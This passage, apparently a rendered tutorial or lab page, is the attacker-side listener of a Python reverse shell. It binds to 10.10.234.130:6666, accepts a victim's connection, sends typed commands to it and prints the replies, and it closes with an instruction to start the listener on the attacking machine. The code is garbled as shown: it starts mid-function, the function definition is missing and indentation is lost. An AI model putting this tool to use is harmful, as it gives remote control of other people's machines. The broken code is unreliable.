 while True:

cmd = input()

if cmd == 'quit':

conn.close()

server.close()

sys.exit()

if len(str.encode(cmd)) > 0:

conn.send(str.encode(cmd))

client\_response = str(conn.recv(1024), "utf-8")

print(client\_response, end="")

\# set attacker's IP and port

bind\_ip = "10.10.234.130"

bind\_port = 6666

serv\_add = ((bind\_ip),(bind\_port))

\# create socket object and bind to server address

\# listen for connections every 5 seconds

server = socket.socket(socket.AF\_INET,socket.SOCK\_STREAM)

print (serv\_add)

server.bind((serv\_add))

server.listen(5)

print ("\[\*] listening on {}:{}".format(bind\_ip,bind\_port))

\# accept successful connections

\# print out details and ask for commands to be executed

conn,addr = server.accept()

print('accepted connection from {} and port {}'.format(addr\[0],addr\[1]))

print("enter the commands below")

\# call send\_commands function

\# close connection if IF statement breaks

send\_commands(conn)

conn.close()

* Start Python listener on attacking machine.

python ./Desktop/python\_reverse\_shell\_server.py

('10.10.234.130', 6666)
